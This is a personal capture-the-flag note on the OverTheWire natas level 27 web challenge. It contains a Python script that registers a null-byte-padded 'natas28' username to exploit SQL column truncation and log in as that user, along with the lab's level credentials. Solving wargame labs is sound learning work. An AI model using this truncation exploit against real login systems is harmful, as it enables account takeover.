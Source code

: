 
2024-08-03 14:07

Source: #natas #web #py 

Tags: [[sql]] [[PHP]]
# aka SQL Buffer overflow 

we have a login page 

- HTML entities is PHP's notion and attempt to secure things down, like remove all the HTML entities if you were to try and do like cross-site scripting or inject HTML elements or JavaScript code into an input field's

- `mysql_real_escape_string` function is another PHP mitigation function that will try and lock down or protect a lot of regular sequel injection techniques





```python
import requests
username = 'natas27'
password = 'u3RRffXjysjgwFU6b9xa23i6prmUsYne'

url = 'http://natas27.natas.labs.overthewire.org/'  
session = requests.session()

response = session.post(url, data = {"username": "natas28" + "\x00"*58 +"x", "password": "12" },auth =(username,password))

response = session.post(url, data = {"username": "natas28" , "password": "12" },auth =(username,password))
print(response.text)
```

### References

writeups with correct answers - 
https://github.com/timruff/overthewire/blob/main/natas/natas27/exploit.py
https://www.youtube.com/watch?v=87BKWwGEF1Q

writeups with incorrect answers - 
https://www.youtube.com/watch?v=Y7WXxmWKfxs
https://axcheron.github.io/writeups/otw/natas/
https://ivanitlearning.wordpress.com/2020/02/02/overthewire-natas2729/
